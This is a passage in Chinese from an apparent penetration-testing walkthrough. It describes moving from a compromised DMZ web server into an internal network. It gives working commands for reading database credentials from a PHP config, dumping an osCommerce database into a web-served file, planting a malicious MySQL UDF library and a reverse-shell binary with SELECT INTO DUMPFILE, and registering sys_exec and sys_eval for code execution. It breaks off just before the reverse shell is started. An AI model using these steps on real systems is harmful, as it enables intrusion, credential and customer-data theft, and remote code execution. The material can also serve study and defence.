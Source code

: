 至此，拿到了一个 DMZ 的 Shell。

- 向内网渗透

在拿到的 Shell 中`/sbin/ifconfig`发现其内网参数为`10.150.0.1/24`。

接着，进入`/var/www/includes/`查看 PHP 配置：

```
cat configure.php
```

在其中发现该服务器架设的网站使用内网一台机器作为数据库服务器，其配置信息如下：

```
define('DB_SERVER', '10.150.0.5');
define('DB_SERVER_USERNAME', 'root');
define('DB_SERVER_PASSWORD', 'xxxxxx');
define('DB_DATABASE', 'oscommerce');
```

于是将数据库导出：

```
mysqldump -u root -pxxxxxx -h 10.150.0.5 oscommerce > /var/www/images/ccdump.txt
```

导出后，即可用浏览器访问这个文件。

接下来，作者想要利用数据库向数据库服务器渗透。他利用之前的 FTP 向 HTTP 根目录上传了一个`up.php`和一个`up.html`。其功能是提供一个上传文件的页面，并且能够把上传的文件以作者指定的 ID 存入指定数据库（这里我不太清楚其具体过程，从后文看似乎是新建了一个名为`pwn`的数据库）。

打开浏览器访问上述上传页面，作者上传了一个恶意 MySQL UDF 库`lib_mysqludf_sys.so`（附录三给出了更多关于 MySQL UDF 的介绍和利用方法）并设置 ID 为 1，接着上传了一个二进制版反弹 Shell，并设置 ID 为 2。

OK。接着在之前获得的 Shell 中连接数据库：

```
mysql -u root -pxxxxxx -h 10.150.0.5
```

注意，这个 Shell 是没有回显的。

将之前上传的文件写入内网数据库服务器的文件系统：

```
use pwn;
select imgdata from binfile where title="1" into dumpfile '/usr/lib/lib_mysqludf_sys.so';
select imgdata from binfile where title="2" into dumpfile '/tmp/bd';
```

接着需要在数据库中引入一些函数：

```
CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
```

至此，获得在内网数据库服务器上执行代码的能力。现在开启反弹 Shell：
